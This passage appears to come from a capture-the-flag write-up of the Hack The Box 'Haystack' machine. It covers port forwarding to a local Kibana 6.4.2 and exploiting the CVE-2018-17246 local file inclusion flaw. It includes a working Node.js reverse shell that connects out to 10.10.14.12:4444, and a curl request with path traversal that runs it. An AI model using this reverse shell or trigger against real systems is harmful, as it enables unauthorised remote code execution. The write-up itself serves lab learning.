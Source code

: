ElasticSearch is running as `elasticsearch`:

```
elastic+   6960  7.1 34.4 3319312 1330936 ?     Ssl  09:24   1:21 /bin/java -Xms1g -Xmx1g -XX:+UseConcMarkSweepGC -XX:CMSInitiatingOccupancyFraction=75 -XX:+UseCMSInitiatingOccupancyOnly -XX:+AlwaysPreTouch -Xss1m -Djava.awt.headless=true -Dfile.encoding=UTF-8 -Djna.nosys=true -XX:-OmitStackTraceInFastThrow -Dio.netty.noUnsafe=true -Dio.netty.noKeySetOptimization=true -Dio.netty.recycler.maxCapacityPerThread=0 -Dlog4j.shutdownHookEnabled=false -Dlog4j2.disable.jmx=true -Djava.io.tmpdir=/tmp/elasticsearch.nDIY3AAQ -XX:+HeapDumpOnOutOfMemoryError -XX:HeapDumpPath=/var/lib/elasticsearch -XX:ErrorFile=/var/log/elasticsearch/hs_err_pid%p.log -XX:+PrintGCDetails -XX:+PrintGCDateStamps -XX:+PrintTenuringDistribution -XX:+PrintGCApplicationStoppedTime -Xloggc:/var/log/elasticsearch/gc.log -XX:+UseGCLogFileRotation -XX:NumberOfGCLogFiles=32 -XX:GCLogFileSize=64m -Des.path.home=/usr/share/elasticsearch -Des.path.conf=/etc/elasticsearch -Des.distribution.flavor=default -Des.distribution.type=rpm -cp /usr/share/elasticsearch/lib/* org.elasticsearch.bootstrap.Elasticsearch -p /var/run/elasticsearch/elasticsearch.pid --quiet
```

Logstash and Kibaba are only listening on localhost. To access the ports from my box I set up SSH local port forwarding: `# ssh -L 5601:127.0.0.1:5601 -L 9600:127.0.0.1:9600 security@10.10.10.115`

Kibana is running version `Version: 6.4.2`:

![](/assets/images/htb-writeup-haystack/es4.png)

There's an LFI CVE in Kibana for that version which let us execute Javascript code.

[https://github.com/mpgn/CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

I created `/tmp/shell.js` with a standard reverse shell:

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

I then triggered my payload with `curl "http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/shell.js"`
